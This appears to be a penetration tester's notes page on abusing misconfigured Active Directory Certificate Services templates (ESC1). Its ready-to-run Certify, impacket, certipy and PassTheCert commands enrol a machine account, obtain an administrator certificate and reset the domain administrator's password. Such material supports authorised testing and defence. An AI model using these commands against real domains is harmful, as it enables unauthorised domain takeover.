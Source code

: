 +++
title = "Pentest - Active Directory - Certificate Services"
author = ["svejk"]
tags = ["cert", "activeDirectory", "pentest"]
draft = false
+++

## Active Directory Certificate Services {#active-directory-certificate-services}

[social.technet.microsoft.com](https://social.technet.microsoft.com/wiki/contents/articles/3063.certutil-examples-for-managing-active-directory-certificate-services-ad-cs-from-the-command-line.aspx)

Active Directory Certificate Services (AD CS) is an Active Directory server role which allows users to build PKI (Public Key Infrastructure). This can provide practical solutions for VPN access, SSL/TLS certificates and smart card logons, amongst other similar ubiquitous technologies you are likely to encounter on a daily basis. [medium - shaun whorton](https://medium.com/@shaunwhorton/active-directory-certificate-services-domain-dominance-9ba2c54988d7)


## Abusing misconfigured certificate templates {#abusing-misconfigured-certificate-templates}

Use `Certify.exe` to enumerate Certificate Services [GhostPack/Certify](https://github.com/GhostPack/Certify)

```sh
PS C:\ > .\Certify.exe find /vulnerable
```

{{< figure src="/images/certify1.png" >}}

Here's an example of a vulnerable cert template, which is used for client authentication.  Domain Users have enrollments rights, and they're also permitted to supply the subject (msPKI-Certificate-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT)

{{< figure src="/images/certify2.png" >}}


### Python {#python}

<https://github.com/ly4k/Certipy>

[specterops - certified pre-owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)


## Examples {#examples}


### ESC1 vulnerability {#esc1-vulnerability}

{{< figure src="/images/certify3.png" >}}

-   Client Authentication: True - an issued certificate can be used for client authentication purposes.

-   Enrollee Supplies Subject : True - a Subject Alternative Name can be specified which allows a certificate to be requested as another user on the system (e.g., administrator).

-   Requires Manager Approval : False - a requested certificate doesn't require approval from a user with certificate manager permissions.

-   Enrollment Rights : Domain\Domain Computers - this gives low-level users the ability to request a certificate by simply joining a computer to the domain.

User happens to be able to join machines to the domain -- from **whoami /priv**

```sh
  Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
```

Use impacket to join a computer to the domain:

```sh
addcomputer.py 'domain/<user>:<pw>' -method LDAPS -computer-name 'PC01' -computer-pass 'Welcome123'
```

Use <span class="underline">certipy</span> to request cert for admin

```sh
certipy req -username 'PC01$' -password 'Welcome123' -ca AUTHORITY-CA -target <ip> -template '' -upn 'administrator@domain'
```

Can try to auth

```sh
certipy auth -pfx administrator.pfx
```

In this case there's a kerberos session error -&gt; authenticate with LDAP instead of kerberos.  Use [PassTheCert](https://github.com/AlmondOffSec/PassTheCert?source=post_page-----8d6bbd770266--------------------------------) -- first convert

```sh
certipy cert -pfx administrator.pfx -nokey -out user.crt
```

```sh
certipy cert -pfx administrator.pfx -nocert -out user.key
```

Then, eg, change the admin password:

```sh
python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain <domain> -dc-ip <ip> -target administrator -new-pass
```
